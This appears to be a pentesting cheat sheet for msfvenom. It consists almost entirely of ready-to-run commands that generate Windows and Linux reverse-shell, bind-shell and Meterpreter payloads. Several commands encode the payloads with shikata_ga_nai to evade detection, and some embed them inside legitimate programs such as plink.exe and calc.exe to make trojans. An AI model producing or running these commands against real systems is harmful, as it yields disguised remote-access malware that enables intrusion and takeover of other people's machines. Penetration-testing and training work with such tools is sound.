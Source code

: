 # Msfvenom

## General commands

* List all payload types, architecture types, encoders and platforms:

```
msfvenom -l payloads
msfvenom -l archs
msfvenom -l encoders
msfvenom -l platforms
```

* Filter for windows x32 and x64 payloads:

```
msfvenom -l payloads --platform windows --arch x86
msfvenom -l payloads --platform windows --arch x64
```

* Filter for linux x32 and x64 payloads:

```
msfvenom -l payloads --platform linux --arch x86
msfvenom -l payloads --platform linux --arch x64
```

* Show output formats (asp, bash, c, dll, elf, exe, jar, php, powershell, python, raw, sh and more):

```
msfvenom -l formats
```

## Payload Generation

### Common payloads

* &#x20;Windows TCP reverse shell executable:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.1 LPORT=55555 -f exe -o out.exe
```

* Linux staged x86 reverse shell payload:

```
$msfvenom -p linux/x86/shell/reverse_tcp LHOST=$LOCALIP LPORT=443 -o staged.out -f elf-so
```

* Linux non-staged x86 reverse shell payload:&#x20;

```
$msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -o non-staged.out -f elf
```

* Linux non-staged x64 payload:

```
$msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -o non-staged.out -f elf
```

```
$msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LOCALIP LPORT=443 -f exe -o meterpreter.exe
```

### C payloads

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f c
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

```
msfvenom -p linux/x86/shell_bind_tcp LPORT=$PORT -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
```

### JS\_LE payloads

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f js_le -e generic/none
```

### EXE payloads

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -o shell_reverse.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

```
msfvenom -p windows/meterpreter/reverse_https LHOST=$LOCALIP LPORT=$PORT -f exe -o met_https_reverse.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -o shell_reverse.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

```
msfvenom -p windows/meterpreter/reverse_http LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o out.exe
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -k -x calc.exe -o calc_2.exe
```



































